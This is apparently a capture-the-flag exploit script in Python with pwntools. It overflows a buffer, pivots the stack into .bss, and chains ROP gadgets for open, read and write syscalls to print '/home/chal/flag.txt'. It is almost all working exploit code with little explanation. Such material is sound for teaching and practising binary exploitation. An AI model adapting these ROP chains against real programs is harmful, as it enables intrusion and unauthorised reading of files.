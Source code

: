 ```python

leave_ret = 0x0000000000401cfc
pop_rdi_ret = 0x0000000000401832
pop_rsi_ret = 0x000000000040f01e
pop_rax_ret = 0x0000000000448d27
pop_rdx_ret = 0x000000000040173f
syscall_ret = 0x0000000000448280

bss_addr_open = 0x4c2700
bss_addr_read = 0x4c2800
bss_addr_write = 0x4c2900
main_fn = 0x401ce1

# raw_input()
# Modify RBP to a new Stack Space
trash_payload = b'a'*0x20
r.sendline(trash_payload + p64(bss_addr_open) + p64(main_fn))


# Open /home/chal/flag.txt
file_addr = b'/home/chal/flag.txt'.ljust(0x20, b'\x00')
ROP_open = flat(
    # Open file
    # fd = open("/home/chal/flag.txt", 0);
    bss_addr_read,
    pop_rax_ret,    2,
    pop_rdi_ret,    bss_addr_open - 0x20,
    pop_rsi_ret,    0,
    pop_rdx_ret,    0,
    syscall_ret,
    main_fn
)
# raw_input()
r.sendline(file_addr + ROP_open)

# Read flag.txt
ROP_read = flat(
    # Read the file
    # read(fd, buf, 0x30);
    bss_addr_write,
    pop_rax_ret, 0,
    pop_rdi_ret, 3, 
    pop_rsi_ret, bss_addr_read,
    pop_rdx_ret, 0x30,
    syscall_ret,
    main_fn
)
# raw_input()
r.sendline(file_addr + ROP_read)

# Write flat.txt to stdout
ROP_write = flat(
    # Write the file
    # write(1, buf, 0x30);
    bss_addr_write,
    pop_rax_ret, 1,
    pop_rdi_ret, 1,
    pop_rsi_ret, bss_addr_read,
    pop_rdx_ret, 0x30,
    syscall_ret,
    0
)
# raw_input()
```